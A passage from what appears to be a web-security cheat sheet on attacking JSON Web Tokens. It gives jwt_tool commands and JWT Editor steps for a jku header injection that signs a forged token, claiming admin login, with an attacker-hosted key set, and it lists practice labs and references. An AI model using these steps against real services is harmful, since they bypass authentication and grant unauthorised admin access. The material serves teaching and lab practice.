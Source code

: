 **Exploit**:

* Using [ticarpi/jwt_tool]
    ```ps1
    python3 jwt_tool.py JWT_HERE -X s
    python3 jwt_tool.py JWT_HERE -X s -ju http://example.com/jwks.json
    ```
* Using [portswigger/JWT Editor](#)
    1. Generate a new RSA key and host it
    2. Edit JWT's data
    3. Replace the `kid` header with the one from your JWKS
    4. Add a `jku` header and sign the JWT (`Don't modify header` option should be checked)

**Deconstructed**:

```json
{"typ":"JWT","alg":"RS256", "jku":"https://example.com/jwks.json", "kid":"id_of_jwks"}.
{"login":"admin"}.
[Signed with new Private key; Public key exported]
```


## Labs 

* [PortSwigger - JWT authentication bypass via unverified signature](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature)
* [PortSwigger - JWT authentication bypass via flawed signature verification](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification)
* [PortSwigger - JWT authentication bypass via weak signing key](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key)
* [PortSwigger - JWT authentication bypass via jwk header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jwk-header-injection)
* [PortSwigger - JWT authentication bypass via jku header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection)
* [PortSwigger - JWT authentication bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)
* [Root Me - JWT - Introduction](https://www.root-me.org/fr/Challenges/Web-Serveur/JWT-Introduction)
* [Root Me - JWT - Revoked token](https://www.root-me.org/en/Challenges/Web-Server/JWT-Revoked-token)
* [Root Me - JWT - Weak secret](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret)
* [Root Me - JWT - Unsecure File Signature](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-File-Signature)
* [Root Me - JWT - Public key](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)
* [Root Me - JWT - Header Injection](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)
* [Root Me - JWT - Unsecure Key Handling](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)


## References

- [5 Easy Steps to Understanding JSON Web Token - Shaurya Sharma - December 21, 2019](https://medium.com/cyberverse/five-easy-steps-to-understand-json-web-tokens-jwt-7665d2ddf4d5)
- [Attacking JWT authentication - Sjoerd Langkemper - September 28, 2016](https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/)
- [Club EH RM 05 - Intro to JSON Web Token Exploitation - Nishacid - February 23, 2023](https://www.youtube.com/watch?v=d7wmUz57Nlg)
- [Critical vulnerabilities in JSON Web Token libraries - Tim McLean - March 31, 2015](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries//)
- [Hacking JSON Web Token (JWT) - pwnzzzz - May 3, 2018](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)
- [Hacking JSON Web Tokens - From Zero To Hero Without Effort - Websecurify - February 9, 2017](https://web.archive.org/web/20220305042224/https://blog.websecurify.com/2017/02/hacking-json-web-tokens.html)